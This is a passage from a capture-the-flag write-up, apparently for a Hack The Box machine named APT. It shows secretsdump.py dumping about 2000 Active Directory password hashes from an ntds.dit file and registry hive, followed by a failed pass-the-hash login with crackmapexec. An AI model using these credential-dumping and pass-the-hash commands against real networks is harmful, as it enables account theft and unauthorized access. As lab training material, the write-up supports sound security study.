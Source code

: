 # NTDS



#### Dump Hashes <a href="#dump-hashes" id="dump-hashes"></a>

`secretsdump.py` will take the System hive and the `ntds.dit` file and dump that hashes. There are a ton of them.

I’ll save it to a file, and `grep` to get just the hashes, and there are 2000:

```
oxdf@parrot$ secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL > backup_ad_dump
oxdf@parrot$ grep ':::' backup_ad_dump | wc -l
2000
```



Logging in with `crackmapexec` and `psexc.py`, and both returned invalid credentials:

```
oxdf@parrot$ crackmapexec smb dead:beef::b885:d62a:d679:573f -H 2b576acbe6bcfda7294d6bd18041b8fe -u administrator
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [-] htb.local\administrator:2b576acbe6bcfda7294d6bd18041b8fe STATUS_LOGON_FAILURE 
```
